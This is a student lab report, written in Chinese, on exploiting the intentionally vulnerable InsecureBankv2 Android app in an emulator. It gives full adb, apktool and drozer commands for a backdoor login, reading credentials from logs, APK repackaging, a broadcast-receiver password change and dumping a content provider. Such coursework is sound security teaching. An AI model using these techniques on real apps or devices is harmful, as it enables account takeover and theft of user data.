# H8 Android 缺陷应用漏洞攻击实验

**目录**

* [实验目的](#00)
* [实验环境](#01)
* [实验要求](#02)
* [实验过程](#03)
  * [Part 0 实验环境搭建](#030)
  * [Part 1 `Developer Backdoor`](#031)
    * 1.0 配置	1.1 步骤	1.2 小结
  * [Part 2 `Insecure Logging`](#032)
    - 2.0 配置   2.1 步骤    2.2 小结
  * [Part 3 `Android Application patching + Weak Auth`](#033)
    - 3.0 配置	3.1 步骤	3.2 小结
  * [Part 4 `Exploiting Android Broadcast Receivers`](#034)
    * 4.0 配置	4.1 步骤	4.2 小结
  * [Part 5 `Exploiting Android Content Provider`](#035)
    * 5.0 配置	5.1 步骤	5.2 小结
  * [Part 6 `Exploiting Android Pasteboard`](#036)
    * 6.0 配置	6.1 步骤	6.2 小结
  * [Part 7 Drozer实现漏洞利用](#037)
    * 7.0 配置    
    * 7.1 使用Drozer对app进行测试的一些常用命令
    * 7.2 Drozer实现`Exploiting Android Broadcast Receivers`
    * 7.3 Drozer实现`Exploiting Android Content Provider`
    * 7.4 小结
* [问题和解决](#05)
* [参考资料](#07)


## <span id="00">实验目的</span>

- 理解 `Android` 经典的组件安全和数据安全相关代码缺陷原理和漏洞利用方法；
- 掌握 `Android` 模拟器运行环境搭建和 `ADB` 使用；


## <span id="01">实验环境</span>

- `Windows  10`

- [`Android-InsecureBankv2`](https://github.com/c4pr1c3/Android-InsecureBankv2)

- `python 2.7.18`

- `Android Studio 4.2.1`

- `apktool 5.2.1`

- `AVD`

  
  
- `Drozer`


## <span id="02">实验要求</span>

- [x] 详细记录实验环境搭建过程；
- [x] 至少完成以下实验：
  - [x] `Developer Backdoor`
  - [x] `Insecure Logging`
  - [x] `Android Application patching + Weak Auth`
  - [x] `Exploiting Android Broadcast Receivers`
  - [x] `Exploiting Android Content Provider`
- [x] 额外完成：
  - [x] `Exploiting Android Pasteboard`
- [x] （可选）使用不同于`Walkthroughs`中提供的工具或方法达到相同的漏洞利用攻击效果；
  - [x] 推荐 [drozer](https://github.com/mwrlabs/drozer)


## <span id="03">实验过程</span>

### <span id="030">Part 0 实验环境搭建</span>

```
python2.7 环境
AndroLabServer 服务
InsecureBankv2.apk 应用安装
```

* 首先配置`python 2.7`环境

  * 在[官网](https://www.python.org/downloads/release/python-2718/)下载[python2.7.18](https://www.python.org/ftp/python/2.7.18/python-2.7.18.msi)并安装（一路`next`即可）

  * 添加环境变量`path`：`C:\Python27;C:\Python27\Scripts;`，并将这两条移动到最上面，然后在命令行使用`python`和`pip`命令时默认是`2.7`版本。

    

* 下载最新仓库到本地

  ```bash
  git clone https://github.com/c4pr1c3/Android-InsecureBankv2.git
  ```

* 安装必备软件

  ```python
  pip install install -r requirements.txt
  ```

* 运行 `HTTP` 服务器

  ```python 
  # 确保你已经安装了 python2。然后将当前目录更改为 AndroLabServer 文件夹
  # cd AndroLabServer
  
  python app.py
  ```

  

  `AndroLabServer`成功启动，也说明环境配置成功

* 查看可选参数

  ```python
  python app.py --help
  # InsecureBankv2 Backend-Server
  # Options:
  #   --host h    serve on host h (default 192.168.58.1)
  #   --port p    serve on port p (default 8888)
  #   --help      print this message
  ```

* 安装 `InsecureBankv2.apk` 到 `AVD`

  ```bash
  # 确保当前目录：...\Android-InsecureBankv2
  # 确保 avd已经启动
  
  adb install InsecureBankv2.apk
  ```

  

  安装成功

* 使用`...\Android-InsecureBankv2\Usage Guide.pdf`中的用户名密码测试登录

  ```bash
  User: dinesh 
  Password: Dinesh@123$ 
  User: jack 
  Password: Jack@123$
  ```

  

  登录成功


### <span id="031">Part 1`Developer Backdoor`</span>

#### 1.0 配置

* `Android-InsecureBankv2 apk` ——已经在`Part 0`中下载完成

* `JADX `

  ```bash
  # 由于上一个实验没有安装Jadx环境，所以先安装
  git clone https://github.com/skylot/jadx.git
  cd jadx
  gradlew.bat dist
  ```

  

* `dex2jar`——点击下载[当前最新版](https://sourceforge.net/projects/dex2jar/files/dex2jar-2.0.zip/download)到本地解压缩即可

#### 1.1 步骤

1. 解压缩`InsecureBankv2.apk`，直接`右键使用7zip解压缩`

   

2. 复制`classes.dex`文件到`dex2jar`目录下

   

   

3. 使用下面的命令将`.dex`文件转换为`.jar`文件

   ```bash
   d2j-dex2jar.bat classes.dex
   ```

   注意：本实验是在`windows`系统下操作，然而实验指南是`ubuntu`系统。`windows`系统下执行`.bat`文件而不是`.sh`文件。

   

   生成的`jar`文件为：`classes-dex2jar.jar`

4. 使用`JADX-GUI`打开`classes-dex2jar.jar`文件

   进入目录：`...jadx\build\jadx\bin\`，双击`jadx-gui.bat`，选择`classes-dex2jar.jar`文件：

   

   或者使用命令打开：

   ```bash
   jadx-gui.bat <path to classes-dex2jar.jar>
   ```

5. 下面的屏幕截图显示了`Android-InsecureBankv2`应用程序中开发人员后门的反编译代码，允许用户名为`devadmin`的用户与其他所有用户相比到达不同的端点。

   

   另外，如下图，左边为反编译结果，右边为仓库里的源代码，反编译结果和源代码有细微差别，但代码逻辑都一致

   

6. 进行测试

   

   我们发现，任何用户都可以使用用户名`devadmin`，并使用任何密码登录应用程序，而不管密码是否有效。

#### 1.2 小结

开发者在开发应用的时候留了后门，如果知道了后门，非常容易绕过验证破解成功。


### <span id="032">Part 2 `Insecure Logging`</span>

#### 2.0 配置

* `Android-InsecureBankv2 apk` ——已经在`Part 0`中下载完成
* `Android SDK`——已在第五章实验中下载完成

#### 2.1 步骤

1. 将` InsecureBankv2.apk`文件复制到`Android SDK`的`platform-tools`文件夹中，然后使用`adb install  InsecureBankv2.apk`

   在`Part 0`中已经安装成功，可以直接使用，也可以卸载重装

2. 在命令行使用`adb logcat`查看日志

   直接输出在命令行不好分析。将输出到txt文件中，使用`ctrl+c`结束打印日志

   

3. 在模拟器上启动已安装的`InsecureBankv2`应用程序

4. 输入有效的凭据并点击`Login`

   ```
   User: dinesh
   Password: Dinesh@123$
   ```

   

   下面的屏幕截图显示了日志里记录的凭据：

   

5. 进入“更改密码”页面，输入新的凭据

   ```
   修改密钥为：Dinesh@321$
   ```

   下面的屏幕截图显示了在日志里记录的新凭据：

   

#### 2.2 小结

应用程序将用户的输入明文记录在日志中，如果被窃取到用户日志，即可获得登录过的账户和密钥。


### <span id="033">Part 3 `Android Application patching + Weak Auth`</span>

#### 3.0 配置

* `Android-InsecureBankv2 apk`——已下载

* `Android SDK`——已安装

* `apktool`——第七章实验已安装

* `SignApk`

  ```bash
  # 安装
  git clone https://github.com/appium-boneyard/sign.git
  ```

  但是在`windows`上安装好像有点问题，可以使用第七章的签名方法签名

#### 3.1 步骤

1. 安装`InsecureBankv2.apk`到模拟器（√ 前面的步骤中已经完成，不赘述）

2. 在模拟器中启动`InsecureBankv2.apk`（√ ）

3. 将`InsecureBankv2.apk`复制到`apktool`目录下，并输入命令反汇编

   因为第七章实验中已经将`apktool`的路径加入了环境变量，所以在任何目录下可以执行反编译命令

   ```bash
   # apktool 安装见第七章实验
   # 直接在"...\Android-InsecureBankv2\"目录下执行
   
   apktool d InsecureBankv2.apk -o InsecureBankv2-smali
   # -o <dir> 指定反汇编结果保存文件夹，默认为[ApkName]
   ```

   

   反汇编成功

4. 导航到`...\Android-InsecureBankv2\InsecureBankv2-smali\res\values\`，打开`String.xml`进行编辑

   

   修改好后保存

5. 导航回到`...\Android-InsecureBankv2`，重新编译：

   ```bash
   apktool b InsecureBankv2-smali
   ```

   

6. 对新生成的`apk`文件签名（不签名无法安装）

   ```bash
   cd InsecureBankv2-smali\dist
   C:\Users\mengli\AppData\Local\Android\Sdk\build-tools\30.0.2\apksigner sign --min-sdk-version 19 --ks D:\keystore0622.jks --out InsecureBankv2-signed.apk InsecureBankv2.apk
   ```

   

7. 安装`InsecureBankv2-signed.apk`到模拟器中

   ```bash
   # 先卸载
   adb install  InsecureBankv2-signed.apk
   ```

   

8. 在模拟器中启动新安装的`InsecureBankv2`，发现界面多了一个额外的`Create user`按钮。

   

   该按钮只对`admin`用户可见，所以之前看不到。

9. 尝试点击`Create user`按钮创建新用户，但并没有创建，这是假的创建用户按钮，并没有实现功能。

   

#### 3.2 小结

`apk`文件可以使用`apktool`等工具进行反编译，通过修改反编译出来的代码，再重打包重签名，可以轻易绕过脆弱认证，获取`admin`权限。


### <span id="034">Part 4 `Exploiting Android Broadcast Receivers`</span>

#### 4.0 配置

* `Android-InsecureBankv2 apk`——已在`Part 0`中安装
* `Android SDK`——已在`Part 0`中下载安装
* `apktool`——已在`实验七`中安装
* `JADX` ——已在`Part 1`中安装
* `dex2jar`——已在`Part 1`中安装

#### 4.1 步骤

1. 安装`InsecureBankv2.apk`到模拟器（ √ 前面的步骤中已经完成，不赘述）

2. 在模拟器中启动`InsecureBankv2.apk`（ √ ）

3. 将`InsecureBankv2.apk`复制到`apktool`目录下，并输入命令反编译（ √ ）

4. 打开解密的`AndroidManifest.xml`文件

   

5. 反编译`InsecureBankv2.apk`的步骤，已经在`Part 1 - 1`中完成

6. 反编译`InsecureBankv2.apk`的步骤，已经在`Part 1 - 2`中完成

7. 反编译`InsecureBankv2.apk`的步骤，已经在`Part 1 - 3`中完成

8. 反编译`InsecureBankv2.apk`的步骤，已经在`Part 1 - 4`中完成

9. 下面的屏幕截图显示了传递给前面显示的应用程序中声明的`Broadcast Receiver`的参数

   

   

10. 在模拟器上安装：`adb install InsecureBankv2.apk`（ √ )

11. 打开应用 （ √ ），注意并不需要输入用户名和密码登录

12. 在命令行中打开`adb shell`

    

13. 输入下面的命令（绕过登录直接修改密码）

    ```bash
    am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 --es newpass Dinesh@123!
    ```

    

14. 回到模拟器中，打开`Messages`应用，发现

    上述输入的命令自动发送短信联系上述广播接收器，并发送带有密码的短信文本（左图）

    

15. 手动修改，也会有`修改请求`和`修改成功`的短信记录（上面 右图）

#### 4.2 小结

通过发送广播信息，即使不知道认证端的phonenumber，也能让认证端接收到修改密码请求，从而成功修改用户密码。

测试还发现，在`app`中手动修改密码也会有`修改请求`和`修改成功`的短信记录，如果窃取到短信记录，就会泄露信息。


### <span id="035">Part 5 `Exploiting Android Content Provider`</span>

#### 5.0 配置

* `Android-InsecureBankv2 apk`——已在`Part 0`中安装
* `Android SDK`——已在`Part 0`中下载安装
* `apktool`——已在`实验七`中安装
* `JADX` ——已在`Part 1`中安装
* `dex2jar`——已在`Part 1`中安装

#### 5.1 步骤

1. 使用`adb install InsecureBankv2.apk`在模拟器中安装应用（ √ ）

2. 在模拟器上启动已安装的`InsecureBankv2`应用程序

3. 先使用`dinesh/Dinesh@123$`登录应用，再使用`jack/Jack@123$`登录应用

4. 使用`apktool`工具反汇编`InsecureBankv2.apk`（ √ ）

5. 打开`AndroidMainfest.xml`文件，找到`TrackUserContentProvider`

   

6. 反编译步骤 （√ ）

7. 反编译步骤 （√ ）

8. 反编译步骤 （√ ）

9. 反编译步骤 （√ ）

10. 在反编译文件中发现，传过来的数据会被保存到设备的`sql`数据库中：

    

11. 安装`InsecureBankv2.apk` （ √ ）

12. 启动`InsecureBankv2`应用

13. 打开命令行

14. 输入`adb shell`进入`adb命令行`

15. 输入下命令

    ```bash
    content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
    ```

    

    发现登录记录`id= , name= `以明文的方式记录在设备上

#### 5.2 小结

应用程序以明文的方式保存`登录记录`，如果得到设备或者设备上的记录，就能得到存在的用户的用户名，再使用`Part 4`中的方法即可绕过登录修改用户密码。


### <span id="036">Part 6 `Exploiting Android Pasteboard`</span>

#### 6.0 配置

* `Android-InsecureBankv2 apk`——已在`Part 0`中安装
* `Android SDK`——已在`Part 0`中下载安装

#### 6.1 步骤

1. 使用`adb install InsecureBankv2.apk`在模拟器中安装应用（ √ ）

2. 使用有效的凭据(`jack/Jack@123$`)登录到应用程序。单击`Transfer`选项。

3. 点击`getaccounts`，可以看到`From Account`和`To Account`，并全选复制`From Account`的值

   注意：`Copy`为第3个选项

   

4. 回到终端上，输入下面的命令以查找正在运行的`InsecureBankv2`应用程序的进程细节。请注意`InsecureBankv2`应用程序的用户和包名。

   ```bash
   adb shell ps | grep insecure
   ```

   

5.  输入下面的命令以查看从应用程序复制的帐号

    ```bash
    adb shell su u0_a140 call clipboard 3 s16 com.android.insecurebankv2
    # 3: 代表copy。不是实验指导中的2
    ```

    

#### 6.2 小结

应用程序当前正在进行的操作可以通过`adb`查看到。


### <span id="037">Part 7 Drozer实现漏洞利用</span>

#### 7.0 `Drozer`安装

* 下载`drozer`

  下载链接：https://github.com/mwrlabs/drozer/releases/

* 双击安装`drozer`到`windows`主机

  安装前关闭windows安全保护功能，否则会被当成恶意软件无法安装。

  安装时选择python2的版本路径。

* 下载`agent`

  下载链接：https://github.com/mwrlabs/drozer/releases/download/2.3.4/drozer-agent-2.3.4.apk

* 安装`agent`到模拟器

  ```bash
  adb install drozer-agent-2.3.4.apk
  ```

  

  安装后进入应用程序，确保右下角的按钮为`ON`，如果是`OFF`，点击变为`ON`：

  

* 使用drozer连接模拟器

  ```
  # 在drozer.bat目录下执行一下命令
  adb forward tcp:31415 tcp:31415
  drozer.bat console connect
  ```

  `drozer.bat`命令可能会报错，因为没有安装相应的包，按照提示使用`pip install`安装响应的包即可，详细见[问题和解决Q&A2](#Q2)

  

  `drozer`配置正确

#### 7.1 使用drozer对app进行测试的一些常用命令

* 官方命令指南

  | Command      | Description                                                  |
  | ------------ | ------------------------------------------------------------ |
  | run          | Executes a drozer module                                     |
  | list         | Show a list of all drozer modules that can be executed in the current session. This hides modules that you do not have suitable permissions to run. |
  | shell        | Start an interactive Linux shell on the device, in the context of the Agent process. |
  | cd           | Mounts a particular namespace as the root of session, to avoid having to repeatedly type the full name of a module. |
  | clean        | Remove temporary files stored by drozer on the Android device. |
  | contributors | Displays a list of people who have contributed to the drozer framework and modules in use on your system. |
  | echo         | Print text to the console.                                   |
  | exit         | Terminate the drozer session.                                |
  | help         | Display help about a particular command or module.           |
  | load         | Load a file containing drozer commands, and execute them in sequence. |
  | module       | Find and install additional drozer modules from the Internet. |
  | permissions  | Display a list of the permissions granted to the drozer Agent. |
  | set          | Store a value in a variable that will be passed as an environment variable to any Linux shells spawned by drozer. |
  | unset        | Remove a named variable that drozer passes to any Linux shells that it spawns. |

* 常用命令

  ```bash
  # 通过app.package.list模块获取要检测的app的包名
  run app.package.list -f filter_str
  
  # 使用app.package.info模块查看apk基本信息
  run app.package.info -a package_name
  
  # 使用app.package.attacksurface模块识别攻击面
  #export的安卓四大组件（activaty、broadcast receiver、content provider、service）是常见的攻击面，如果查看到四大组件中有可export的，就去具体看可export的组件有没有问题
  run app.package.attacksurface package_name
  
  # 使用app.activity.info模块查看activity组件信息
  run app.activity.info -a package_name
  
  # 使用app.provider.info模块查看content provider组件信息
  run app.provider.info -a package_name
  
  # 使用app.service.info模块查看service组件信息
  run app.service.info -a package_name
  ```

#### 7.2 Drozer实现`Exploiting Android Broadcast Receivers`

* 查看`app`的基本信息

  ```bash
  run app.package.list -f Ins
  run app.package.info -a com.android.insecurebankv2
  ```

  

* 查看可攻击面

  ```bash
  run app.package.attacksurface com.android.insecurebankv2
  ```

  

* 查看 broadcast receivers exported

  ``` bash
  run app.broadcast.info -a com.android.insecurebankv2
  ```

  

* 结合反编译代码查看MyBroadCastReceiver中的参数个数为2：phonenumber和newpass

* 发送信息实现漏洞利用

  ```bash
  run app.broadcast.send --action theBroadcast --component com.android.insecurebankv2 com.android.insecurebankv2.MyBroadCastReceiver --extra string phonenumber 5554  --extra string newpass Jack@123$
  ```

  发现模拟器广播修改密码信息，并被官方接收到，修改成功。

  

#### 7.3 Drozer实现`Exploiting Android Content Provider`

* 查看content providers exported

  ```bash
  run app.provider.info -a com.android.insecurebankv2
  ```

  

* 扫描可能数据泄露的URI路径

  

* 扫描url中的信息

  

  发现明文的登录信息

#### 7.4 小结

`Drozer`具备一定的自动化功能，能够提供很多发现漏洞的思路。

`Drozer`是一种交互式的安全测试工具。使用`Drozer`进行安全测试,用户在自己的工作站上输入命令,`Drozer`会将命令发送到`Android`设备上的代理程序执行。其官方文档说道:“`Drozer`允许你一一个普通`android`应用的身份与其他应用和操作系统交互。


## <span id="05">问题和解决</span>

- [x] **Q0：** `sh d2j-dex2jar.sh classes.dex`命令执行失败

  

  **A0：** 在windows系统下要执行`.bat`命令：`d2j-dex2jar.bat classes.dex`

- [x] **Q1：** `mp4`转`gif`失败，原始工具不好用了。

  **A1：** 发现新的录屏和`GIF`制作软件[ScreenToGif](https://www.screentogif.com/)，非常好用。另外`腾讯QQ`自带的录屏功能也很好用。
  
- [x] **Q2：** `drozer.bat console connect `报错

  **A2：** 完整改错记录查看[drozer命令报错及解决方式.txt](code/drozer命令报错及解决方式.txt)

  ```bash
  λ set path=C:\Python27;C:\Python27\Scripts;%path%                                     
  
  λ drozer.bat console connect                                                         
  # ImportError: No module named google.protobuf                                                                                                           
  λ pip install  protobuf
  # ERROR: drozer 2.4.4 requires pyopenssl>=16.2, which is not installed.
  # ERROR: drozer 2.4.4 requires pyyaml>=3.11, which is not installed.                                                                    
  λ pip install pyopenssl 
  # ERROR: drozer 2.4.4 requires pyyaml>=3.11, which is not installed.                   
  
  λ pip install pyyaml                                                                   # Successfully installed pyyaml-5.4.1                                                                                                                         
  # WARNING: You are using pip version 19.2.3, however version 20.3.4 is available.     # You should consider upgrading via the 'python -m pip install --upgrade pip' command. 
  
  λ drozer.bat console connect                                                           
  # drozer Server requires Twisted to run.                                               # Run 'pip install twisted' to fetch this dependency.                                               
  λ pip install twisted                                                                 # Successfully installed Automat-20.2.0 PyHamcrest-1.10.1 attrs-21.2.0 constantly-15.1.0 hyperlink-21.0.0 idna-2.10 incremental-21.3.0 twisted-20.3.0 typing-3
  0.0.0 zope.interface-5.4.0                                                                                                                               
  λ drozer.bat console connect                                                                                                                                
  C:\Python27\lib\site-packages\OpenSSL\crypto.py:14: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it 
   now deprecated in cryptography, and will be removed in the next release.                                                                                   
    from cryptography import utils, x509                                                                                                                      
  :0: UserWarning: You do not have a working installation of the service_identity module: 'No module named service_identity'.  Please install it from <https:/
  ypi.python.org/pypi/service_identity> and make sure all of its dependencies are satisfied.  Without the service_identity module, Twisted can perform only ru
  mentary TLS client hostname verification.  Many valid certificate/hostname mappings may be rejected.                                                        
  Selecting 0800abb227bda35a (Google Android SDK built for x86 10)                                                                                            
                                                                                                                                                              
              ..                    ..:.                                                                                                                      
             ..o..                  .r..                                                                                                                      
              ..a..  . ....... .  ..nd                                                                                                                        
                ro..idsnemesisand..pr                                                                                                                         
                .otectorandroidsneme.                                                                                                                         
             .,sisandprotectorandroids+.                                                                                                                      
           ..nemesisandprotectorandroidsn:.                                                                                                                   
          .emesisandprotectorandroidsnemes..                                                                                                                  
